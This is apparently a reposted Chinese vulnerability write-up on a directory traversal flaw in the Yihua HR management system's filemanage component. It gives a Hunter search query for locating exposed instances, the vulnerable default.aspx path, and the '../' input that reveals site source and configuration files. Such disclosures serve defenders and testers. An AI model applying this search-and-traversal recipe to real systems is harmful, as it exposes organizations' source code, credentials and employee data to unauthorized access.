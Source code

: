 # 亿华人力资源管理系统filemanage存在目录遍历漏洞

# 一、漏洞简介
亿华人力资源管理系统是一款全面的人力资源管理软件，旨在帮助企业实现员工档案管理规范化、薪资管理自动化、招聘管理流程化等目标。该系统涵盖了人力资源管理的各个方面，包括员工档案管理、薪资管理、招聘管理、培训管理、福利管理等。亿华人力资源管理系统filemanage存在目录遍历漏洞，可通过该漏洞查看网站源码及配置文件等敏感信息。

# 二、影响版本
+ 亿华人力资源管理系统

# 三、资产测绘
+ hunter`web.body="亿华人力资源管理系统"`
+ 特征

![1700719530357-795ccebb-a7d7-426f-ad2e-6292dafa922e.png](./img/zcWQQp8jsVRLBX-8/1700719530357-795ccebb-a7d7-426f-ad2e-6292dafa922e-732191.png)

# 四、漏洞复现
```plain
/filemanage/file/default.aspx
```

![1700989447803-6daa1ad8-0c21-4a3e-bcff-8558bef4a3da.png](./img/zcWQQp8jsVRLBX-8/1700989447803-6daa1ad8-0c21-4a3e-bcff-8558bef4a3da-078709.png)

在转到目录除输入`../`即可跳转到网站目录查看网站源码及各类配置文件

![1700989498664-e661c4dc-8bd3-483b-a458-23c4c7cd667b.png](./img/zcWQQp8jsVRLBX-8/1700989498664-e661c4dc-8bd3-483b-a458-23c4c7cd667b-645753.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gnluyfnyo0do37cq>